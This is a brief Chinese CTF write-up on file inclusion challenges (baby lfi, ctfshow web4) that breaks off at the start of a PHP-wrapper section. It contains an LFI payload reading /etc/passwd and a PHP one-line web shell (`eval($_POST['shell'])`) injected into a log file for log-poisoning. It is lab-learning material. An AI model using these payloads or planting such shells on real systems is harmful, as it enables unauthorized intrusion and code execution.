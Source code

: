 
## 文件包含

### baby lfi

本地文件包含

![image-20240425215857622](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240425215857622.png)

看提示构造payload

`?language=/etc/passwd`

![image-20240425220113307](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240425220113307.png)

拿到flag

### ctfshow web4

![image-20240507222240330](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507222240330.png)

这里提示我们使用文件包含

题目提示了日志文件

![image-20240507222411028](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507222411028.png)

包含日志文件可以回显

bp抓包插入一句话木马

`<?php eval($_POST['shell'])?>`

访问发现日志多了访问记录

说明木马插入成功

![image-20240507222743424](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507222743424.png)

使用工具连接

![image-20240507224007148](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240507224007148.png)

拿到flag



## php伪协议

### web3

看题目提示知道是php伪协议的题

![image-20240428195911621](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240428195911621.png)

让我们传一个url参数
